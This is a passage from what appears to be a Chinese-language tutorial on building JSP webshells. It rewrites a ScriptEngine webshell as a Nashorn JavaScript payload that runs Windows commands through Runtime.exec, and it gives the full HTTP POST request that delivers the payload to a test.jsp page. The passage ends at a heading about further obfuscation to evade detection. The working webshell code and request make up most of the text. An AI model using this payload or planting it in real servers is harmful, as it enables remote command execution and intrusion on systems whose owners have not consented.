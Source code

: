 然后调用js引擎执行脚本，我们将上方给出的ScriptEngine版本的webshell进行改造，将其改造成js版本：

```
try{
    load("nashorn:mozilla_compat.js");
}
catch (e){
}
importPackage(Packages.java.util);
importPackage(Packages.java.lang);
importPackage(Packages.java.io);
s=[2];
s[0]='cmd';
s[1]='/c whoami /all';
a="";
b=java.lang.Runtime.getRuntime().exec(s).getInputStream();
output+=new BufferedReader(new+InputStreamReader(b));
while ((line=output.readLine()) != null) 
{
    o=o+line+"\n"
};o

```

然后我们将其传入执行js，最终的包长这样

```
POST /test.jsp?spr1=javax.script.ScriptEngineManager HTTP/1.1
Host: 172.20.10.2:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=4A34A77B78CD48404804BFD7420A0195
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 414

spr2=try{load("nashorn%3amozilla_compat.js")%3b}catch(e){}importPackage(Packages.java.util)%3bimportPackage(Packages.java.lang)%3bimportPackage(Packages.java.io)%3bs%3d[2]%3bs[0]%3d'cmd'%3bs[1]%3d'/c+whoami'%3ba%3d""%3bb%3djava.lang.Runtime.getRuntime().exec(s).getInputStream()%3boutput+%3d+new+BufferedReader(new+InputStreamReader(b))%3bwhile+((line%3doutput.readLine())+!%3d+null)+{a%3da%2bline%2b"\n"}%3ba

```

然后执行，没有问题。

### 0x03 进一步混淆

虽然已经可以通过传递指定js脚本执行命令，但仔细来看

